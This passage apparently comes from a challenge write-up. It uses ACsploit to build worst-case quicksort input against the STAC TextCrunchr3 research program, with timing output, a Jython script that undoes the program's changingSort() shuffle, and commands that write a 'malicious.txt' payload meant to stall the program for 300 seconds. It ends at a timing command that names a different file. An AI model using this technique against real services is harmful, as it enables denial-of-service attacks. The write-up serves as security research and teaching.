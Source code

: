 `jython time_sort.py qsort.txt`

![Sort timing output](images/time_sort.png)

We see the ACsploit output takes about 10 seconds for `quickSort()`, while the random input takes less than 1 second. We also note that the sort function with ACsploit input takes less than 1 second. We thus infer the `changingSort()` method shuffles the ordering of the ACsploit input so that it is no longer a worst case input.

We have our proof of concept, but we still need two things for a successful solution:

1. We need to pass input that will be shuffled into the ACsploit input order by `changingSort()`
2. We need to reach a runtime of 300 seconds

To resolve the first issue, we run the following Jython script to reverse the `changingSort()` function for our input and write the result to a file:

```
import sys
sys.path.append('examples/STAC-textcrunchr_3/textcrunchr_3/challenge_program/lib/textcrunchr_3.jar')

from com.cyberpointllc.stac.sort import Sorter
from com.cyberpointllc.stac.sort import DefaultComparator

infile = sys.argv[1]
outfile = sys.argv[2]
sorter = Sorter(DefaultComparator.STRING)
acsploit_input = []
with open(infile, 'r') as f:
    for line in f:
        acsploit_input.append(line.strip())

numeric_input = range(len(acsploit_input))
sorter.changingSort(numeric_input, 0, len(acsploit_input) - 1)

reverse_shuffle = [[]] * len(acsploit_input)
# changingSort moves elements from start_index to shuffled_index
# to reverse the process, we move acsploit_input at shuffled_index to start_index
for shuffled_index, start_index in enumerate(numeric_input):
    reverse_shuffle[start_index] = acsploit_input[shuffled_index]

with open(outfile, 'w') as f:
    f.write(' '.join(reverse_shuffle))
```

`jython reverse_shuffle.py qsort.txt malicious.txt`

We now have our malicious input saved as `malicious.txt`. It is only 50 KB, and `TextCrunchr3` accepts uncompressed files. Let's see how long this takes to run:

`time textcrunchrhost_1 reverse_shuffle.txt`
